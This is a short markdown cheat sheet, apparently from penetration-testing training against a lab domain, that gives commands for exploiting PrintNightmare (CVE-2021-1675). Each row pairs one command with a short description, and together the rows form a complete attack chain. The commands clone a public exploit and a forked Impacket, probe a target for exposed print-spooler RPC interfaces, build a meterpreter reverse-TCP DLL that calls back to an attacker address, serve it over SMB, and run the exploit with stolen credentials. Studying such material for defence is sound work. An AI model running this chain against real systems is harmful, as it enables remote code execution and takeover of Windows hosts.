 # PrintNightmare

***

| Command                                                                                                                           | Description                                                                                                                                                                                                                                              |
| --------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `git clone https://github.com/cube0x0/CVE-2021-1675.git`                                                                          | Used to clone a PrintNightmare exploit using git from a Linux-based host.                                                                                                                                                                                |
| `pip3 uninstall impacket git clone https://github.com/cube0x0/impacket cd impacket python3 ./setup.py install`                    | Used to ensure the exploit author's (`cube0x0`) version of Impacket is installed. This also uninstalls any previous Impacket version on a Linux-based host.                                                                                              |
| `rpcdump.py @172.16.5.5 \| egrep 'MS-RPRN\|MS-PAR'`                                                                               | Used to check if a Windows target has `MS-PAR` & `MSRPRN` exposed from a Linux-based host.                                                                                                                                                               |
| `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.129.202.111 LPORT=8080 -f dll > backupscript.dll`                       | Used to generate a DLL payload to be used by the exploit to gain a shell session. Performed from a Windows-based host.                                                                                                                                   |
| `sudo smbserver.py -smb2support CompData /path/to/backupscript.dll`                                                               | Used to create an SMB server and host a shared folder (`CompData`) at the specified location on the local linux host. This can be used to host the DLL payload that the exploit will attempt to download to the host. Performed from a Linux-based host. |
| `sudo python3 CVE-2021-1675.py inlanefreight.local/<username>:<password>@172.16.5.5 '\\10.129.202.111\CompData\backupscript.dll'` | Executes the exploit and specifies the location of the DLL payload. Performed from a Linux-based host.                                                                                                                                                   |

